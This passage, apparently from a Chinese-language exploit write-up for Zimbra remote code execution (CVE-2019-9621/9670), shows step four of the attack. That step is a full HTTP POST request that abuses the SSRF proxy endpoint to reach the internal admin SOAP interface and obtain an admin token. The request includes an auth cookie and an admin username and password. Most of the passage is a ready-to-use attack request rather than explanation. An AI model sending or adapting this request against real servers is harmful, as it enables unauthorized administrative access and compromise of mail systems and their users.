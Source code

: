 ![](./resource/(CVE-2019-9621)(CVE-2019-9670)Zimbra远程代码执行漏洞/media/rId29.png)

从上图可以看到已经获取到token，但该token不是管理员权限的token，暂时记下来以后要用。

### 第四步：利用SSRF漏洞通过proxy接口，访问admin的soap接口获取高权限Token

> POST请求包如下：

    POST /service/proxy?target=https://127.0.0.1:7071/service/admin/soap HTTP/1.1  
    Host: www.0-sec.org:7071  
    User-Agent: Mozilla/5.0 (Windows NT 10.0) Gecko/20100101 Firefox/66.0  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
    Accept-Encoding: gzip, deflate  
    Referer: https://mail.****.com/zimbra/
    Content-Type: application/soap+xml  
    Content-Length: 465  
    Connection: close  
    Cookie: ZM_ADMIN_AUTH_TOKEN=0_5221766f264e4dcb78b4f67be5f839b1ed668da3_69643d33363a65306661666438392d313336302d313164392d383636312d3030306139356439386566323b6578703d31333a313535343733303133353638333b747970653d363a7a696d6272613b7469643d393a3735353034333637323b  
    Upgrade-Insecure-Requests: 1  

    <soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">  
       <soap:Header>  
           <context xmlns="urn:zimbra">  
               <userAgent name="ZimbraWebClient - SAF3 (Win)" version="5.0.15_GA_2851"/>  
           </context>  
       </soap:Header>  
       <soap:Body>  
         <AuthRequest xmlns="urn:zimbraAdmin">  
            <account by="adminName">zimbra</account>  
            <password>GzXaU76_s5</password>  
         </AuthRequest>  
       </soap:Body>  
    </soap:Envelope>
